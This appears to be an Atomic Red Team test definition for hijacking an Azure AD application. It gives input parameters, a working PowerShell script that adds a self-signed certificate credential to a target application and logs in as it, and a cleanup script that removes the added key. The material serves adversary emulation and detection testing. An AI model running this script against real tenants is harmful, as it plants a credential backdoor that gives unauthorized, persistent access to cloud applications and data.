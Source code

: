 #### Inputs:

| Name             | Description                      | Type   | Default Value    |
| ---------------- | -------------------------------- | ------ | ---------------- |
| username         | Azure AD username                | string | jonh@contoso.com |
| password         | Azure AD password                | string | p4sswd           |
| application_name | Name of the targeted application | string | SuperApp         |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module -Name AzureAD
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential > $null

$app = Get-AzureADApplication -SearchString "#{application_name}" | Select-Object -First 1
if ($app -eq $null) { Write-Warning "Application not found"; exit }

# in the context of an ART test (and not a real attack), we don't need to keep access for too long. In case the cleanup command isn't called, it's better to ensure that everything expires after 1 day so it doesn't leave this backdoor open for too long
$credNotAfter = (Get-Date).AddDays(1)
$certNotAfter = (Get-Date).AddDays(2) # certificate expiry must be later than cred expiry

$cert = New-SelfSignedCertificate -DnsName "atomicredteam.example.com" -FriendlyName "AtomicCert" -CertStoreLocation Cert:\CurrentUser\My -KeyExportPolicy Exportable -Provider "Microsoft Enhanced RSA and AES Cryptographic Provider" -NotAfter $certNotAfter
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())
Write-Host "Generated certificate ""$($cert.Thumbprint)"""

New-AzureADApplicationKeyCredential -ObjectId $app.ObjectId -Type AsymmetricX509Cert -CustomKeyIdentifier "AtomicTest" -Usage Verify -Value $keyValue -EndDate $credNotAfter

Start-Sleep -s 30
$tenant = Get-AzureADTenantDetail
$auth = Connect-AzureAD -TenantId $tenant.ObjectId -ApplicationId $app.AppId -CertificateThumbprint $cert.Thumbprint
Write-Host "Application Hijacking worked. Logged in successfully as $($auth.Account.Id) of type $($auth.Account.Type)"
Write-Host "End of Hijacking"
```

#### Cleanup Commands:

```powershell
Import-Module -Name AzureAD -ErrorAction Ignore
$PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword
Connect-AzureAD -Credential $Credential -ErrorAction Ignore > $null

$app = Get-AzureADApplication -SearchString "#{application_name}" | Select-Object -First 1
$credz = Get-AzureADApplicationKeyCredential -ObjectId $app.ObjectId
foreach ($cred in $credz) {
  if ([System.Text.Encoding]::ASCII.GetString($cred.CustomKeyIdentifier) -eq "AtomicTest") {
    Write-Host "Removed $($cred.KeyId) key from application"
    Remove-AzureADApplicationKeyCredential -ObjectId $app.ObjectId -KeyId $cred.KeyId
  }
}
Get-ChildItem -Path Cert:\CurrentUser\My | where { $_.FriendlyName -eq "AtomicCert" } | Remove-Item
```
